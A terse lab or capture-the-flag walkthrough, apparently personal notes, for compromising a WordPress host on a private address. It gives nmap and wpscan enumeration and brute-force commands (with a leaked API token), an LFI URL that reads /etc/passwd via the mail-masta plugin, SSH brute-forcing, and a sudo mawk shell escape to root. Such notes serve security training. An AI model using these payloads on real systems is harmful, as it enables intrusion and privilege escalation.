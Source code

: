 nmap -p- -sV -sC -Pn 192.168.102.112 --open

ftp anonymous available
passwords in pdf

wpscan for 
wpscan --url http://192.168.102.112 --enumerate p --plugins-detection aggressive --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
wpscan --url http://192.168.102.112 --passwords password112.txt --api-token fQRHq1Xd2K2yCo8zQjiNQwGrSMbOJUekxgKkxaqRYew
LFI in mail masta plugin
http://192.168.102.112/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
got username
created username and passwordlist
 bruteforce ssh
 got sarah for ssh
 sudo -l 
 mawk
 sudo mawk 'BEGIN {system("/bin/sh")}'
 gtfobins got root